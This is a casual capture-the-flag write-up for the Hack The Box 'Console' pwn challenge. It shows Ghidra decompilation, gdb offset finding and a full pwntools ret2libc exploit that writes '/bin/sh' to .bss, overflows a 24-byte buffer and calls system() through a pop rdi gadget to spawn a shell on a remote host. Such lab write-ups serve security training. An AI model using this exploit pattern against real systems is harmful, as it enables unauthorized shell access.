 # HTB Console - Write Up
Very basic pwn challenge, from the second i ran checksec and file i already knew it was ret2libc.

![file](file.png)

64bit, dynamically linked and also stripped so spin up ghidra realfastmyg
First thing i look for when im doing reverse is interesting functions such as gets, fgets, strcpy etc, but in FUN_00401201's case.
![file](funcs.png)

# Finding Primitives. 
I know ghidra looks disgusting, but if you havent noticed yet. We have interesting stuff, such as HOF.
```c
else {
    var = strcmp(param_1,"hof\n");
    if (var == 0) {
        puts("Register yourself for HTB Hall of Fame!");
        printf("Enter your name: ");
        fgets(&DAT_004040b0,10,stdin);
        puts("See you on HoF soon! :)");
    }
}
```
The `hof` command serves as a simple interaction point for users to register their names for a Hall of Fame feature.
Command Recognition -> The program recognizes the command and executes the corresponding block of code.
User Interaction -> It engages the user by asking for their name after displaying a message about the Hall of Fame.
Input Handling -> The program collects user input into a designated memory location **DAT_004040b** which is likely stored in the **BSS segment**.

Likely ? Lets make sure
![file](binsh.png)

As you can see, theres binsh !, so indeed hof writes everything we type into the bss seg. What i did here is ive put the binary in gdb, ran it, wrote hof then wrote binsh and examine'd the addr found during the RE.

Now what ? 
# Find the big boss
the boss is literally above the hof 
```c
    else {
      var = strcmp(param_1,"flag\n");
      if (var == 0) {
        printf("Enter flag: ");
        fgets(buffer,0x30,stdin);
        puts("Whoops, wrong flag!");
      }
```
for me i see it as simple bof. Lets debug.

![file](bof.png)

whatever also use `pattern create` , now run `i f ` then copy the saved rip value then run `pattern offset 0x6161616161616164` then itll show that the offset is 24.

# Now what ?
we got the offset.
we got the address of binsh.

we need system to make it classic ret2libc, and lucky for us we have a command calls system which is date.
```c
          else {
            var = strcmp(param_1,"date\n");
            if (var == 0) {
              system("date");
            }
```
we need to get the address of system.
and also since we're dealing with 64bit calling conventions we need a ROP Gadget, `pop rdi ret` will do us a favor.

jus use this
```
objdump -D htb-console | grep system
```
and you should find zis

![file](system.png)

now last but not least, za pop rdi ret.

![file](poprdiret.png)

Now we got everything we need to build our exploit:
```
offset = 24
binsh addr = 0x004040b0
system_addr = 0x00401381
pop_rdi_ret = 0x401473
```

ilovepwntoolsitmakesmylifeeasier

now the exploit should look like this.

![file](exploitb4.png)


and thats it ENjoy zaexploit.

```py
#!/usr/bin/env python3
from pwn import *

r = remote("83.136.254.158", 36429)
# stuff
pop_rdi = 0x0401473
offset = 0x18 # 24
binsh_addr = 0x004040b0
system_addr = 0x00401381

# Write binsh to .bss
r.recvuntil('>> ')
r.sendline('hof')
payload = b'/bin/sh\x00'
r.recvuntil('Enter your name: ')
r.sendline(payload)

# Trigger the bof
r.recvuntil('>> ')
r.sendline('flag')

# last step
payload = flat(
        b'A' * offset,
        p64(pop_rdi),
        p64(binsh_addr),
        p64(system_addr),
)

# Exploit it
r.recvuntil('Enter flag: ')
r.sendline(payload)
r.interactive()
```
![file](crashed.png)
there u go ??!!!


L33tJbr
